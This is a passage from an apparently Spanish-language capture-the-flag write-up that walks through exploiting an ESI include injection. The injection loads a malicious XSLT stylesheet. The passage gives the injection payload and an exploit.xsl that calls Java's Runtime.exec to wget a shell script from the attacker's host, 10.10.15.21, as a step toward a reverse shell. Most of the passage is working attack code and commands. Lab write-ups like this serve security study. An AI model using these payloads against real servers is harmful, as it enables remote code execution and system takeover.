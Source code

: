 ```xml
</xsl:template>
</xsl:stylesheet>
```

Levantamos nuestro servidor web con nuestro archivo **xsl**, ponemos a la escucha nuestro **tcpdump** para saber si recibimos ping y mandamos nuestra petición.

- `sudo python3 -m http.server 8081`
- `sudo tcpdump -i tun0 icmp`
- `<esi:include src="http://10.10.15.21:8081/" stylesheet="http://10.10.15.21:8081/exploit.xsl"></esi:include>`

![7](img/7.png)

Vemos que se ejecutó correctamente nuestro payload.

![8](img/8.png)

Ahora crearemos un revesershell y la subiremos al sistema. **Es necesario cambiar el puerto después de cada petición**.

##### exploit.xsl
```xml
<?xml version="1.0" ?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:output method="xml" omit-xml-declaration="yes"/>
<xsl:template match="/"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime">
<root>
<xsl:variable name="cmd"><![CDATA[wget -O /tmp/shell.sh http://10.10.15.21:8086/shell.sh]]></xsl:variable>
<xsl:variable name="rtObj" select="rt:getRuntime()"/>
<xsl:variable name="process" select="rt:exec($rtObj, $cmd)"/>
Process: <xsl:value-of select="$process"/>
Command: <xsl:value-of select="$cmd"/>
</root>
</xsl:template>
</xsl:stylesheet>
```
